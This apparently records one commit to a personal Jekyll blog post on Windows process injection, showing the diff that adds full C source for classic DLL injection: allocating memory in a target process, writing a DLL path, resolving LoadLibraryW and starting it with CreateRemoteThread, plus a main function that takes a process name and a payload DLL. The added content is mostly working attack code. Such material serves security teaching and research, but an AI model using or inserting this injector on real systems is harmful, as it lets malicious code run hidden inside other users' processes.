

Before and after one commit to hol-jud18/hol-jud18.github.io, a Jekyll site: the page built from _posts/2026-05-18-process-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 2384 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 3014 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
more process injection dll stuff

````diff
--- a/_posts/2026-05-18-process-injection.md
+++ b/_posts/2026-05-18-process-injection.md
@@ -87,8 +87,87 @@
 
 ### Getting the Address of LoadLibraryW
 
-`GetModuleHandle`{:.language-c} gives us the base address of `kernel32.dll`{:.language-c} in our own process, and `GetProcAddress`{:.language-c} resolves `LoadLibraryW` from that base. As mentioned above, because `kernel32.dll`{:.language-c} is mapped at the same address in every process, this address is valid in the target process as well.
+`GetModuleHandle`{:.language-c} gives us the base address of `kernel32.dll`{:.language-c} in our own process, and `GetProcAddress`{:.language-c} resolves `LoadLibraryW`{:.language-c} from that base. As mentioned above, because `kernel32.dll`{:.language-c} is mapped at the same address in every process, this address is valid in the target process as well.
 
 ### Creating the Remote Thread
 
 Finally, `CreateRemoteThread`{:.language-c} spawns a new thread in the target process. We pass it the address of `LoadLibraryW`{:.language-c} as the thread start routine and our allocated DLL path buffer as the argument.
+
+```c
+BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR szDllPath) {
+
+    SIZE_T sNumberOfBytesWritten  = 0;
+    DWORD  dwThreadId             = 0;
+    SIZE_T sDllPathSize           = (wcslen(szDllPath) + 1) * sizeof(WCHAR);
+
+    // allocate memory in the remote process for the DLL path
+    LPVOID pDllPathAddress = VirtualAllocEx(hProcess, NULL, sDllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
+    if (pDllPathAddress == NULL) {
+        printf("[!] VirtualAllocEx failed: %d\n", GetLastError());
+        return FALSE;
+    }
+    printf("[+] Allocated memory at 0x%p in remote process\n", pDllPathAddress);
+
+    // write the DLL path into the allocated memory
+    if (!WriteProcessMemory(hProcess, pDllPathAddress, szDllPath, sDllPathSize, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sDllPathSize) {
+        printf("[!] WriteProcessMemory failed: %d\n", GetLastError());
+        return FALSE;
+    }
+    printf("[+] Wrote %zu bytes to remote process\n", sNumberOfBytesWritten);
+
+    // get the address of LoadLibraryW - valid in the remote process because kernel32.dll
+    // is mapped at the same base address across all processes
+    LPVOID pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
+    if (pLoadLibraryW == NULL) {
+        printf("[!] GetProcAddress failed: %d\n", GetLastError());
+        return FALSE;
+    }
+    printf("[+] LoadLibraryW address: 0x%p\n", pLoadLibraryW);
+
+    // create a remote thread that calls LoadLibraryW with our DLL path
+    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryW, pDllPathAddress, 0, &dwThreadId);
+    if (hThread == NULL) {
+        printf("[!] CreateRemoteThread failed: %d\n", GetLastError());
+        return FALSE;
+    }
+    printf("[+] Remote thread created with TID %d\n", dwThreadId);
+
+    return TRUE;
+}
+```
+### Implementing the main function and tying it together
+
+```c
+int wmain(int argc, wchar_t* argv[]) {
+
+    DWORD  dwProcessId = 0;
+    HANDLE hProcess    = NULL;
+
+    if (argc != 3) {
+        printf("Usage: %ls <process name> <DLL path>\n", argv[0]);
+        printf("Example: %ls notepad.exe C:\\payload.dll\n", argv[0]);
+        return -1;
+    }
+
+    LPWSTR szProcessName = argv[1];
+    LPWSTR szDllPath     = argv[2];
+
+    printf("[*] Searching for process: %ls\n", szProcessName);
+
+    if (!GetRemoteProcessHandle(szProcessName, &dwProcessId, &hProcess)) {
+        printf("[!] Could not find or open target process\n");
+        return -1;
+    }
+    printf("[+] Found %ls with PID %d\n", szProcessName, dwProcessId);
+
+    if (!InjectDllToRemoteProcess(hProcess, szDllPath)) {
+        printf("[!] DLL injection failed\n");
+        CloseHandle(hProcess);
+        return -1;
+    }
+    printf("[+] DLL injected successfully\n");
+
+    CloseHandle(hProcess);
+    return 0;
+}
+```
````
